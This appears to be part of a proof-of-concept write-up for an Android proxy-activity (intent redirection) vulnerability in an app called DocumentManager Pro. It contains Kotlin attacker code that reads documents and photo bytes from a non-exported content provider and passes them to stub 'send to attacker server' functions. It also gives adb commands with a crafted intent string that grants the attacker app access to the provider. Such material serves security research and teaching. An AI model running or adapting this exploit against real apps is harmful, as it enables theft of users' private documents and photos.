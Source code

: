 ```kotlin
            val documentsUri = Uri.withAppendedPath(baseUri, "documents")
            contentResolver.query(documentsUri, null, null, null, null)?.use { cursor ->
                while (cursor.moveToNext()) {
                    val filename = cursor.getString(cursor.getColumnIndex("filename"))
                    val content = cursor.getString(cursor.getColumnIndex("content"))
                    Log.d("STOLEN_DOCUMENT", "File: $filename, Content: $content")
                    
                    // Send stolen data to attacker server
                    sendToServer(filename, content)
                }
            }
            
            // Access photos using granted permissions
            val photosUri = Uri.withAppendedPath(baseUri, "photos")
            contentResolver.query(photosUri, null, null, null, null)?.use { cursor ->
                while (cursor.moveToNext()) {
                    val filename = cursor.getString(cursor.getColumnIndex("filename"))
                    Log.d("STOLEN_PHOTO", "Photo: $filename")
                    
                    // Download actual photo file
                    val photoUri = Uri.withAppendedPath(photosUri, filename)
                    contentResolver.openInputStream(photoUri)?.use { inputStream ->
                        val photoData = inputStream.readBytes()
                        Log.d("PHOTO_STOLEN", "Photo data size: ${photoData.size} bytes")
                        sendPhotoToServer(filename, photoData)
                    }
                }
            }
        } catch (e: Exception) {
            Log.e("EXPLOIT_ERROR", "Failed to steal data", e)
        }
    }
    
    private fun sendToServer(filename: String, content: String) {
        // Simulate sending to attacker server
        Log.d("DATA_EXFILTRATED", "Sending $filename to evil server")
    }
    
    private fun sendPhotoToServer(filename: String, data: ByteArray) {
        // Simulate sending photo to attacker server
        Log.d("PHOTO_EXFILTRATED", "Uploading $filename (${data.size} bytes) to evil server")
    }
}
```
## Testing

```bash
# Install the vulnerable DocumentManager Pro app with proxy activity
adb install -r DocumentManager-Pro.apk

# Launch DocumentManager Pro to initialize sensitive data
adb shell am start -n com.documentmanager/.MainActivity

# Test direct access to non-exported provider (should fail)
adb shell content query --uri content://com.documentmanager.secure/documents

# Test proxy activity exploitation via ADB
adb shell am start \
  -n com.documentmanager/.ProxyActivity \
  -e extra_intent "intent:#Intent;component=com.attacker/.UriReceiver;scheme=content;host=com.documentmanager.secure;i.flags=0x00000043;end"

```